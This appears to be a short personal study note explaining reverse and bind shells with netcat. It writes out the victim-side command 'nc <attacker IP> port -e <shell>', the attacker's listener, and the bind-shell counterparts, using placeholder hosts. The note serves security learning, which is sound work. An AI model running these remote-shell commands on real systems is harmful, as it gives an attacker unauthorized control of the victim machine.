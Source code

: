 We use [[netcat]] (nc) to connect to a remote machine

**Reverse Shell:**
The victim is connecting back to us via an open port

Step 1
**Victim Machine** (Connecting)
```
nc  <attacker IP> port -e <shell>
```

Step 2
**Attacker Machine** (Listening)
```
nc -vlp <port>
```
![[Pasted image 20241227094930.png]]

**Bind Shell:**
The attacker  is connecting  to the victim via an open port

Step 1
**Victim Machine** (Listening)
```
nc -vlp <port> -e <shell>
```

Step 2
**Attacker Machine** (Connecting)
```
nc  <victim IP> port 
```

![[Pasted image 20241227095454.png]]
